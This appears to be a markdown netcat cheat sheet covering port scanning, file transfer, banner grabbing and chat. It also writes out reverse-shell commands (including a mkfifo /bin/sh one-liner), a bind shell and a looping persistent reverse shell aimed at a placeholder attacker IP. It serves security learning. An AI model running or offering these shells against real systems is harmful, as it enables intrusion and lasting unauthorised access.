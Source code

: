
---
## 📖 Syntax

```bash
nc [options] <host> <port>
```

---

## 📡 Common Use Cases

### 🔍 1. Port Scanning

```bash
nc -zv 10.10.10.10 20-100
```

- `-z`: Zero I/O mode (just scanning)
    
- `-v`: Verbose output
    

---

### 📂 2. File Transfer

#### Server (Listening machine):

```bash
nc -lvp 4444 > received.txt
```

#### Client (Sending machine):

```bash
nc <IP> 4444 < file.txt
```

---

### 🐚 3. Reverse Shell

#### On Attacker (listener):

```bash
nc -lvnp 4444
```

#### On Target:

```bash
nc <attacker-ip> 4444 -e /bin/bash   # Linux
nc <attacker-ip> 4444 -e cmd.exe     # Windows
```

If `-e` is not available (e.g., in OpenBSD nc), use:

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker-ip> 4444 > /tmp/f
```

---

### 🔁 4. Bind Shell

#### On Target:

```bash
nc -lvnp 4444 -e /bin/bash
```

#### On Attacker:

```bash
nc <target-ip> 4444
```

---

### 🧪 5. Chat Between Two Hosts

#### Host A:

```bash
nc -lvp 5555
```

#### Host B:

```bash
nc <host-A-ip> 5555
```

---

## 🛠️ Useful Options

|Option|Description|
|---|---|
|`-l`|Listen mode|
|`-v`|Verbose|
|`-n`|Numeric-only IPs, no DNS resolution|
|`-p`|Local port|
|`-e`|Execute a program after connecting|
|`-z`|Zero I/O mode (scanning)|
|`-u`|Use UDP instead of TCP|
|`-w <sec>`|Timeout|

---

## 🔐 Netcat for Banner Grabbing

```bash
nc <target-ip> 80
```

Then manually type:

```http
GET / HTTP/1.1
Host: <target-ip>
```

---

## 🔄 Persistent Reverse Shell (Loop)

On victim:

```bash
while true; do nc <attacker-ip> 4444 -e /bin/bash; sleep 5; done
```
















